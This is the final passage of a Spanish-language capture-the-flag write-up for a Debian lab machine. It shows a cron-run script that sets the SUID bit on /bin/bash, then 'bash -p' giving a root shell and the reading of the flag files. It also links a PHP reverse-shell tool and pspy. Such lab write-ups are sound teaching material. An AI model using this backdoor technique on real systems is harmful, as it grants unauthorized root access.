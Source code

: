Creamos el script en el directorio `/opt` y le damos permisos de ejecución:
```bash
www-data@debian:/opt$ cat backup.sh 
#!/bin/bash
chmod u+s /bin/bash
www-data@debian:/opt$ chmod +x backup.sh
```

Ahora espera 1 minuto y vuelve a revisar los **permisos de la Bash**:
```bash
www-data@debian:/opt$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
Funciono.

Ahora podemos usar la **Bash con privilegios**:
```bash
www-data@debian:/opt$ bash -p
bash-5.2# whoami
root
```

Ya solo debemos buscar las flags:
```bash
bash-5.2# cd /home/debian/
bash-5.2# ls
user.txt
bash-5.2# cat user.txt 
...
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
...
```
Y con esto completamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/pentestmonkey/php-reverse-shell
* https://github.com/DominicBreuker/pspy


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
